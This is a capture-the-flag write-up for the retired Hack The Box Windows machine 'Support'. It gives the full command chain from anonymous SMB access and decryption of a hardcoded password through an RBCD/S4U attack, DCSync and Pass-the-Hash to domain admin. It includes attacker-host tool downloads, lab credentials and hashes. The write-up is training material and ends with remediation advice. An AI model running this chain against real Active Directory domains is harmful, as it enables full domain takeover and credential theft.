

| Property         | Value                                                                                                                      |
| ---------------- | -------------------------------------------------------------------------------------------------------------------------- |
| **OS**           | Windows                                                                                                                    |
| **Difficulty**   | Easy                                                                                                                       |
| **Release Date** | 2022-07-30                                                                                                                 |
| **State**        | Retired                                                                                                                    |
| **IP**           | 10.129.230.181                                                                                                             |
| **Techniques**   | Anonymous SMB enumeration, .NET binary reversing, LDAP enumeration, BloodHound analysis, RBCD abuse, DCSync, Pass-the-Hash |
| **Tags**         | #ad #windows #privesc #smb #kerberos #ldap                                                                                 |

> **Note:** The machine's IP address changes across sections of this writeup due to restarts (`10.129.230.181`, `10.129.50.211`).

---
## Summary

Support is an Easy difficulty Windows machine built around Active Directory. An SMB share permits anonymous authentication and discloses a .NET utility, `UserInfo.exe`, used by IT staff to query the domain over LDAP. Reversing the binary recovers an obfuscated password for a service account, `ldap`, hardcoded inside the executable. Authenticating to LDAP as `ldap` and dumping all user objects discloses the plaintext password for the `support` user stored in its `info` attribute, granting WinRM access to the host. Enumerating the domain with BloodHound reveals that `support` is a member of the `Shared Support Accounts` group, which holds `GenericAll` (full control) over the Domain Controller's own computer object (`DC.SUPPORT.HTB`). This is abused to configure Resource-Based Constrained Delegation (RBCD) on the DC in favor of an attacker-created machine account, then a Kerberos S4U2self/S4U2proxy request (via Rubeus) is used to impersonate the domain `Administrator` against the DC. The resulting service ticket is used to perform a DCSync attack with `secretsdump`, recovering the `Administrator` NTLM hash, which is then used in a Pass-the-Hash attack to obtain a fully privileged WinRM session and complete the domain compromise.

---
## Enumeration

### Nmap Scan

```
nmap -sCV support.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-06 06:50 EDT
Nmap scan report for support.htb (10.129.230.181)
Host is up (0.11s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-06 10:51:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-07-06T10:51:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.96 seconds
```

The scan discloses the standard AD services set, DNS (53), Kerberos (88), LDAP (389/3268), SMB (445), RPC (135/593) and WinRM on port 5985. The hostname `DC` and the `support.htb` LDAP domain confirm the target is a domain controller.

### SMB Enumeration

Enumerating shares with anonymous (null session) access discloses a non-default share, `support-tools`, containing a zipped executable named `UserInfo.exe.zip`:

```
smbclient -L //support.htb -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to support.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

```
smbclient //support.htb/support-tools -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

                4026367 blocks of size 4096. 959242 blocks available
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (328.1 KiloBytes/sec) (average 328.1 KiloBytes/sec)
```

### Binary Analysis and Credential Recovery

Decompiling the extracted `UserInfo.exe` with `ilspycmd` (a .NET decompiler) recovers the full C# source, including an `LdapQuery` class that authenticates to the domain and a `Protected` class responsible for decrypting a hardcoded, obfuscated password used for that authentication:

```
ilspycmd UserInfo.exe
...
namespace UserInfo.Services
{
        internal class Protected
        {
                private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

                private static byte[] key = Encoding.ASCII.GetBytes("armando");

                public static string getPassword()
                {
                        byte[] array = Convert.FromBase64String(enc_password);
                        byte[] array2 = array;
                        for (int i = 0; i < array.Length; i++)
                        {
                                array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
                        }
                        return Encoding.Default.GetString(array2);
                }
        }

        internal class LdapQuery
        {
                private DirectoryEntry entry;
                private DirectorySearcher ds;

                public LdapQuery()
                {
                        string password = Protected.getPassword();
                        entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
                        entry.set_AuthenticationType((AuthenticationTypes)1);
                        ds = new DirectorySearcher(entry);
                }
                ...
        }
}
```

`getPassword()` base64-decodes the `enc_password` blob, then XORs every byte first with a repeating key (`armando`) and then with the constant `0xDF`. The scheme is used to reverse the password with a Python script:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

data = bytearray(base64.b64decode(enc_password))

for i in range(len(data)):
    data[i] = (data[i] ^ key[i % len(key)]) ^ 0xDF

try:
    result = data.decode("cp1252")
except UnicodeDecodeError:
    result = data.decode("utf-8", errors="replace")

print(result)
```

Credentials recovered:

```
ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

`UserInfo.exe` uses these credentials to bind to LDAP as the user `support\ldap.

---
## Foothold

### LDAP Enumeration

The recovered `ldap` credentials are used to authenticate directly to the domain's LDAP service and dump every user object:

```
ldapsearch -x -H ldap://support.htb -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "(&(objectCategory=person)(objectClass=user))"
```

The `support` user  `info` attribute contains a plaintext password, and it is a member of two non-default groups, `Shared Support Accounts` and `Remote Management Users`:

```
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
```

`support` being a member of `Remote Management Users` grants WinRm access by default.

Credentials recovered: `support:Ironside47pleasure40Watchful`

---
## User Flag

Accessing WinRM as `support`:

```
evil-winrm -i 10.129.50.211 -u support -p Ironside47pleasure40Watchful
```

```
*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
89a6b2b28e02a4a1ef1c54d42f73a1b7
```

---
## Privilege Escalation

### Enumeration

```
*Evil-WinRM* PS C:\Users\support\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
support\support S-1-5-21-1677581083-3380853377-188903654-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`support` holds `SeMachineAccountPrivilege`, meaning it can create new computer accounts in the domain (subject to the default `ms-DS-MachineAccountQuota` of 10), this becomes relevant for the delegation attack shown below.

### BloodHound Analysis

The BloodHound-CE Python collector is run with `support`'s credentials to pull the domain's ACLs, group memberships, and object relationships:

```
bloodhound-ce-python -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.50.211 -c All

INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: support.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 07S
```

After ingesting the JSON output into BloodHound, running Pathfinding from `SUPPORT@SUPPORT.HTB` to `ADMINISTRATOR@SUPPORT.HTB` reveals a direct escalation path:



```
SUPPORT@SUPPORT.HTB --MemberOf--> SHARED SUPPORT ACCOUNTS --GenericAll--> DC.SUPPORT.HTB --CoerceToTGT / DCSync--> SUPPORT.HTB --Contains--> USERS@SUPPORT.HTB --Contains--> ADMINISTRATOR@SUPPORT.HTB
```

`support` is a member of `Shared Support Accounts`, and that group holds `GenericAll` (full control) directly over `DC.SUPPORT.HTB`, which is the Domain Controller's own computer object. `GenericAll` grants the ability to write to every attribute of the target object, including security-sensitive ones such as `msDS-AllowedToActOnBehalfOfOtherIdentity` (used for Resource-Based Constrained Delegation) or `msDS-KeyCredentialLink` (used for Shadow Credentials attacks). Because a Domain Controller's machine account is inherently a highly privileged principal  (it is a member of the `Domain Controllers` group and holds the replication rights needed to perform a `DCSync`) full control over that single object is functionally equivalent to compromising the domain itself. This is why BloodHound draws both a `CoerceToTGT` and a `DCSync` edge straight from the DC's computer object to the domain node: whoever controls `DC$` can obtain tickets and abuse the DC's own replication privileges.

### Exploitation

#### 1. Create an attacker-controlled machine account

Since `support` can create computer accounts (`SeMachineAccountPrivilege` / default `MachineAccountQuota`), Powermad is used to add a new machine account (`attackersystem`), with a known password:

```
(New-Object Net.WebClient).DownloadFile('http://10.10.14.254:8000/Powermad.ps1','C:\Users\support\Documents\Powermad.ps1')
```

```
*Evil-WinRM* PS C:\Users\support\Documents> import-module .\powermad.ps1
```

```
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
[+] Machine account attackersystem added
```

PowerView is then used to confirm the account was created and to grab its SID (needed for the next step):

```
*Evil-WinRM* PS C:\Users\support\Documents> (New-Object Net.WebClient).DownloadFile('http://10.10.14.254:8000/PowerView.ps1','C:\Users\support\Documents\PowerView.ps1')
```

```
*Evil-WinRM* PS C:\Users\support\Documents> import-module .\powerview.ps1
```

```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer -Identity attackersystem

distinguishedname      : CN=attackersystem,CN=Computers,DC=support,DC=htb
name                   : attackersystem
objectsid              : S-1-5-21-1677581083-3380853377-188903654-6102
samaccountname         : attackersystem$
serviceprincipalname   : {RestrictedKrbHost/attackersystem, HOST/attackersystem, RestrictedKrbHost/attackersystem.support.htb, HOST/attackersystem.support.htb}
useraccountcontrol     : WORKSTATION_TRUST_ACCOUNT
dnshostname            : attackersystem.support.htb
```

```
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADComputer attackersystem -Properties objectSid

DistinguishedName : CN=attackersystem,CN=Computers,DC=support,DC=htb
DNSHostName       : attackersystem.support.htb
Enabled           : True
Name              : attackersystem
objectSid         : S-1-5-21-1677581083-3380853377-188903654-6102
SamAccountName    : attackersystem$
```

#### 2. Configure Resource-Based Constrained Delegation on the DC

`GenericAll` over `DC.SUPPORT.HTB` grants write access to the DC object's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, the attribute that controls **Resource-Based Constrained Delegation (RBCD)**. Setting it to a security descriptor that grants `attackersystem$` the right to delegate authenticates the newly-created computer as a trusted front-end for the DC, meaning it will be allowed to request Kerberos service tickets on behalf of any other user against the DC:

```
$ComputerSid = (Get-DomainComputer attackersystem -Properties objectsid).objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity' = $SDBytes}
```

This step is what makes the following Rubeus S4U chain against the DC succeed, without it the DC would reject the delegated service ticket request.

#### 3. Abuse S4U2Self / S4U2Proxy to impersonate Administrator

Rubeus is uploaded and used to compute the RC4 (NTLM) hash of `attackersystem`'s known password, which is required to authenticate as that account for the S4U exchange:

```
*Evil-WinRM* PS C:\Users\support\Documents> (New-Object Net.WebClient).DownloadFile('http://10.10.14.254:8001/Rubeus.exe','C:\Users\support\Documents\Rubeus.exe')
```

```
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /password:Summer2018!

[*] Action: Calculate Password Hash(es)
[*] Input password             : Summer2018!
[*]       rc4_hmac             : EF266C6B963C0BB683941032008AD47F
```

Rubeus' `s4u` action then chains the two extensions of the Kerberos protocol that make constrained/resource-based delegation possible:

- **S4U2Self**: `attackersystem$` requests, on its own behalf, a forwardable service ticket _for itself_ naming `administrator` as the client. Any service account can request this for an arbitrary user without knowing that user's credentials.
- **S4U2Proxy**: using that self-referential ticket, `attackersystem$` requests a service ticket for the target SPN (`cifs/dc.support.htb`) _impersonating_ `administrator`. The DC only honors this request because of the RBCD entry configured in step 2, which explicitly lists `attackersystem$` as trusted to delegate to it.

```
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:"cifs/dc.support.htb" /ptt

[*] Action: S4U
[*] Using rc4_hmac hash: EF266C6B963C0BB683941032008AD47F
[*] Building AS-REQ (w/ preauth) for: 'support.htb\attackersystem$'
[+] TGT request successful!
[*] Action: S4U
[*] Using domain controller: dc.support.htb (::1)
[*] Building S4U2self request for: 'attackersystem$@SUPPORT.HTB'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'attackersystem$@SUPPORT.HTB'
[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':
      doIGcDCCBmygAwIBBaEDAgEWooIFgjCCBX5hggV6MIIFdqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
      ... (truncated) ...
[+] Ticket successfully imported!
```

`/ptt` injects the resulting ticket directly into the current session's Kerberos ticket cache. The base64 blob is also copied to the attacking Kali host for use with Impacket:

```
tr -d '[:space:]' < admin.b64 > administrator.b64
base64 -d administrator.b64 > administrator.kirbi
```

```
impacket-ticketConverter administrator.kirbi administrator.ccache
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

#### 4. DCSync

A ticket for `cifs/dc.support.htb` issued in `administrator`'s name grants an authenticated SMB/RPC session on the DC as `Administrator`. `secretsdump` uses that Kerberos session (`-k -no-pass`) to reach the DC's `DRSUAPI` interface and invoke `DRSGetNCChanges`to pull hashes directly out of the domain's NTDS store without ever touching disk:

```
impacket-secretsdump -k -no-pass -dc-ip 10.129.50.211 support.htb/administrator@dc.support.htb -just-dc-user Administrator
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f5301f54fad85ba357fb859c94c5c31a6abe61f6db1986c03574bfd6c2e31632
Administrator:aes128-cts-hmac-sha1-96:678dcbcbf92bc72fd318ac4aa06ede64
Administrator:des-cbc-md5:13a8c8abc12f945e
[*] Cleaning up... 
```

NTLM hash recovered: `Administrator:bb06cbc02b39abeddd1335bc30b19e26`

#### 5. Pass-the-Hash

The recovered NTLM hash is used directly for authentication to obtain a fully privileged WinRM session:

```
evil-winrm -i 10.129.50.211 -u Administrator -H bb06cbc02b39abeddd1335bc30b19e26

Evil-WinRM shell v3.7
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support\administrator
```

## Root Flag

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
11e43cf5545779de8d02cb4136ad2b3b
```

---

## Remediation

- **Anonymous SMB access:** Disable anonymous/null-session access to SMB shares. Internal tooling, scripts, and installers should never be exposed to unauthenticated users.
- **Hardcoded credentials in a distributed binary:** `UserInfo.exe` shipped a weakly obfuscated (XOR) service-account password inside the executable itself. Any encoding scheme into client-distributed code should be treated as equivalent to a plaintext credential. Use short-lived tokens, a broker/service account with least privilege, or interactive authentication instead.
- **Plaintext credentials in AD attributes:** The `support` account's password was stored in its `info` attribute, which is readable by any account with basic directory read rights (including the low-privileged `ldap` service account). Never store credentials in free-text AD attributes such as `info`, `description`, or custom extension attributes.
- **Excessive delegation on Tier-0 objects:** The `Shared Support Accounts` group held `GenericAll` over the Domain Controller's own computer object. This ACE is equivalent to a standing Domain Admin grant for every member of that group, since full control over a DC's machine account can be converted into a DCSync via Resource-Based Constrained Delegation (or Shadow Credentials). AD ACLs on Domain Controllers, Domain Admins, and other Tier-0 principals must be reviewed and locked down to dedicated Tier-0 administrators only, and audited regularly with a tool such as BloodHound.
- **RBCD / delegation abuse:** Monitor and alert on writes to `msDS-AllowedToActOnBehalfOfOtherIdentity` on privileged objects (Directory Service changes, Event ID 5136), and review `ms-DS-MachineAccountQuota` (default 10) a value greater than 0 lets any authenticated, unprivileged user create computer accounts that can be leveraged in delegation attacks such as this one.

---

## References

- [HackTricks — Resource-Based Constrained Delegation](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html)
- [The Hacker Recipes — Resource-Based Constrained Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations/resource-based-constrained-delegation)
- [harmj0y — S4U2Pwnage](https://blog.harmj0y.net/redteaming/s4u2pwnage/)
- [GhostPack — Rubeus](https://github.com/GhostPack/Rubeus)
- [Kevin Robertson — Powermad](https://github.com/Kevin-Robertson/Powermad)
- [PowerSploit — PowerView](https://github.com/PowerShellMafia/PowerSploit)
- [Fortra — Impacket (secretsdump.py)](https://github.com/fortra/impacket)
- [Microsoft — MS-SFU: Kerberos Protocol Extensions: Service for User](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94)
- [Microsoft — Appendix L: Events to Monitor](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-l--events-to-monitor)